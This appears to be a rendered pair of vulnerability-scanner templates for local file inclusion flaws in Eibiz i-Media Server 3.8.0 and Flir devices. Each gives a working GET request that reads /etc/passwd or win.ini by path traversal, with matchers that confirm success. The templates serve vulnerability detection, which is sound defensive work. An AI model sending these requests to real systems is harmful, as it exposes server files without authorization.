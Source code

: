 ## Description

- Eibiz i-Media Server Digital Signage 3.8.0 is vulnerable to local file inclusion. An unauthenticated remote attacker can exploit this to view the contents of files located outside of the server's root directory. The issue can be triggered through the oldfile GET parameter.
- severity - high
- tags - lfi,eibiz,packetstorm,windows

## Requests

- Method - GET

### URL

- {{BaseURL}}/dlibrary/null?oldfile=../../../../../../windows/win.ini&library=null

### Matchers

**Type - word**

- part - body
- words
  1. bit app support
  2. fonts
  3. extensions
- condition - and

---

# Flir - Local File Inclusion

## Description

- Flir is vulnerable to local file inclusion.
- severity - high
- tags - flir,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/download.php?file=/etc/passwd

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:
- condition - and
